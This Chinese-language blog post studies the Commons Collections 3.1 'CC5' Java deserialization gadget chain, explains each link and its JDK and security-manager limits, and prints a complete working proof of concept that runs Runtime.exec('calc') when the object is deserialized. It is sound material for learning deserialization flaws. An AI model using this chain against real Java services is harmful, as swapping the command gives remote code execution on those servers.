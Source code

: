 # 前言

奇奇怪怪的就把CC5给看了。在看一个师傅的`CC1`的文章的时候，发现他写的`LazyMap`链不太一样，我以为是CC1的新链，然后也学习了一波，然后查了一下发现是CC5。。。

# 环境

```xml
        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.1</version>
        </dependency>
```

# 分析

CC5也算是CC1的另一种变形。一直到`LazyMap`那里的思路都是一样的。接下来就是需要调用`Map`的`get()`方法了。

发现了`TiedMapEntry`类的`getValue()`方法调用了`get()`：

```java
    public Object getValue() {
        return map.get(key);
    }
```

而它的`toString()`调用了`getValue()`方法：

```java
    public String toString() {
        return getKey() + "=" + getValue();
    }
```

接下来就是找可利用的`readObject()`方法了，发现了`BadAttributeValueExpException`类的`readObject()`方法：

```java
    private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
        ObjectInputStream.GetField gf = ois.readFields();
        Object valObj = gf.get("val", null);

        if (valObj == null) {
            val = null;
        } else if (valObj instanceof String) {
            val= valObj;
        } else if (System.getSecurityManager() == null
                || valObj instanceof Long
                || valObj instanceof Integer
                || valObj instanceof Float
                || valObj instanceof Double
                || valObj instanceof Byte
                || valObj instanceof Short
                || valObj instanceof Boolean) {
            val = valObj.toString();
        } else { // the serialized object is from a version without JDK-8019292 fix
            val = System.identityHashCode(valObj) + "@" + valObj.getClass().getName();
        }
    }
```

```java
val = valObj.toString();
```

因此想办法让`valObj`是`TiedMapEntry`类的对象即可，看一下它是怎么得到的。

```java
        ObjectInputStream.GetField gf = ois.readFields();
        Object valObj = gf.get("val", null);
```

先调用`readFields`从流中读取了所有的持久化字段，然后调用`get()`方法得到了名字是`val`的字段。也就是这个：

```java
    private Object val;
```

同时注意一下这个类，看一下就知道这个类其实也是可以反序列化的：

```java
public class BadAttributeValueExpException extends Exception   {
public class Exception extends Throwable {
public class Throwable implements Serializable {
```



至此，整条链子也就理清了，有了构造CC1的经验，直接构造即可：

```java
package com.summer.cc5;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CommonsCollections5 {
    public static void main(String[] args) throws Exception{
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Class.forName("java.lang.Runtime")),
                new InvokerTransformer(
                        "getMethod",
                        new Class[]{String.class,Class[].class},
                        new Object[]{"getRuntime",new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[]{Object.class,Object[].class},
                        new Object[]{null,new Object[0]}
                ),
                new InvokerTransformer(
                        "exec",
                        new Class[]{String.class},
                        new Object[]{"calc"}
                )
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, chainedTransformer);


        TiedMapEntry tiedMapEntry = new TiedMapEntry(outerMap,"feng");

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);

        //Reflection
        Class clazz = Class.forName("javax.management.BadAttributeValueExpException");
        Field field = clazz.getDeclaredField("val");
        field.setAccessible(true);
        field.set(badAttributeValueExpException,tiedMapEntry);

        byte[] bytes = serialize(badAttributeValueExpException);
        //System.out.println(System.getSecurityManager());
        unserialize(bytes);
    }
    public static void unserialize(byte[] bytes) throws Exception{
        try(ByteArrayInputStream bain = new ByteArrayInputStream(bytes);
            ObjectInputStream oin = new ObjectInputStream(bain)){
            oin.readObject();
        }
    }

    public static byte[] serialize(Object o) throws Exception{
        try(ByteArrayOutputStream baout = new ByteArrayOutputStream();
            ObjectOutputStream oout = new ObjectOutputStream(baout)){
            oout.writeObject(o);
            return baout.toByteArray();
        }
    }
}

```

![image-20210816143850033]([Java反序列化]CommonsCollections5利用链学习.assets/image-20210816143850033.png)

```java
	Gadget chain:
        ObjectInputStream.readObject()
            BadAttributeValueExpException.readObject()
                TiedMapEntry.toString()
                    LazyMap.get()
                        ChainedTransformer.transform()
                            ConstantTransformer.transform()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Class.getMethod()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.getRuntime()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.exec()
```





# 限制

我换用了一下JDK7u21，发现并不能弹出计算器。发现`badAttributeValueExpException`压根就没`readObject()`方法。

看一下`ysoserialize`里的CC5：

```java
This only works in JDK 8u76 and WITHOUT a security manager
```

实际上我用的`8u71`也可以，`8u77`也可以。。。嗯。。。。。所以这个JDK版本的限制还是不去考虑它了。。

再注意一下`WITHOUT a security manager`，主要原因就是`readObject()`那里：

```java
        } else if (System.getSecurityManager() == null
                || valObj instanceof Long
                || valObj instanceof Integer
                || valObj instanceof Float
                || valObj instanceof Double
                || valObj instanceof Byte
                || valObj instanceof Short
                || valObj instanceof Boolean) {
            val = valObj.toString();
```

`System.getSecurityManager() == null`才行。

> 安全管理器在Java语言中的作用就是检查操作是否有权限执行。是Java沙箱的基础组件。我们一般所说的打开沙箱，即加`-Djava.security.manager`选项，或者在程序中直接设置：`System.setSecurityManager(new SecurityManager())`. 当运行未知的Java程序的时候，该程序可能有恶意代码（删除系统文件、重启系统等），为了防止运行恶意代码对系统产生影响，需要对运行的代码的权限进行控制，这时候就要启用Java安全管理器.

默认肯定为null。关于`SecurityManager`的相关知识等到以后再去专门学习一下了，现在还是把重点放在CC链上。

# 参考链接

https://www.guildhab.top/2020/06/java-rmi-%e5%88%a9%e7%94%a84-%e6%9c%80%e5%9f%ba%e6%9c%ac%e7%9a%84%e4%b8%a4%e6%9d%a1-apache-commons-collections-pop-gadget-chains/

https://y4er.com/post/ysoserial-commonscollections-5/

